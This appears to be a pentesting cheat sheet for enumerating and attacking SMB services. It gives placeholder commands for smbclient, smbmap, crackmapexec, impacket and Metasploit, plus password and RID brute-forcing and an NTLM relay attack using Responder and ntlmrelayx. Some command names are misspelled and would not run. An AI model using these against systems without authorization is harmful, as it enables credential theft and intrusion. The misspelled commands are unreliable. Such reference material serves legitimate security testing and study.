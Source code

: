 ```yaml
---
icon: database
description: Server Message Block
---
```


# SMB

## <mark style="color:purple;">Enumeration</mark>

{% tabs %}
{% tab title="smbclient" %}
{% code title="Without Credentials" %}
```
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% code title="Connect to share" %}
```bash
smbclient -N \\\\IP\Share
```
{% endcode %}

{% code title="List Resource list" %}
```bash
smbclient -L <IP>
```
{% endcode %}

{% code title="List Null session" %}
```bash
smbclient -N <IP>
```
{% endcode %}

{% code title="List Share" %}
```bash
smbclient //IP/<SHARE> -U <USER>
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code title="Connect to Host" %}
```
smbmap -H <IP>
```
{% endcode %}

{% code title="Connect with credentials" %}
```bash
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'
```
{% endcode %}

{% code title="List Share" %}
```
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endtab %}

{% tab title="crackmapexec" %}
{% code title="Connect to host" %}
```bash
crackmapexec smb <IP>
```
{% endcode %}

{% code title="List shares" %}
```bash
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endcode %}

{% code title="Full Enumeration" %}
```bash
crackmapexec smb <IP> -u <username> -p <password> --allinfo
```
{% endcode %}

{% code title="Bruteforce" %}
```bash
cracmapexec smb <IP> -u usernames -p passwords
```
{% endcode %}

{% code title="Brutefoce RID" %}
```bash
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute
```
{% endcode %}

{% code title="Deep Enumeration" %}
```bash
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
```
{% endcode %}

{% code title="RMU (Remote Management User)" %}
```bash
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```
{% endcode %}
{% endtab %}

{% tab title="impacket" %}
{% code title="Connect to server" %}
```bash
impacket-smbclient <IP>/user:password@address
```
{% endcode %}
{% endtab %}

{% tab title="smbget" %}
{% code title="Download file" %}
```bash
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
{% code title="Select the module" %}
```bash
use auxiliary/scanner/smb/smb_enumshares
```
{% endcode %}

{% code title="Set target" %}
```bash
set RHOSTS <target_ip>
```
{% endcode %}

{% code title="Execute" %}
```bash
run
```
{% endcode %}
{% endtab %}
{% endtabs %}

***

## &#x20;<mark style="color:purple;">To download files type this sequence of commands:</mark>

{% stepper %}
{% step %}
### <mark style="color:orange;">`recurse`</mark>
{% endstep %}

{% step %}
### <mark style="color:orange;">`prompt`</mark>
{% endstep %}

{% step %}
### <mark style="color:orange;">`mget *`</mark>
{% endstep %}
{% endstepper %}

***

{% hint style="danger" %}
## <mark style="color:purple;">NTLM Relay Attacks</mark>

{% code title="Capture the Hash" %}
```bash
responder -I eth0 -dwv
```
{% endcode %}

{% code title="Relay the hash" %}
```bash
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>
```
{% endcode %}
{% endhint %}
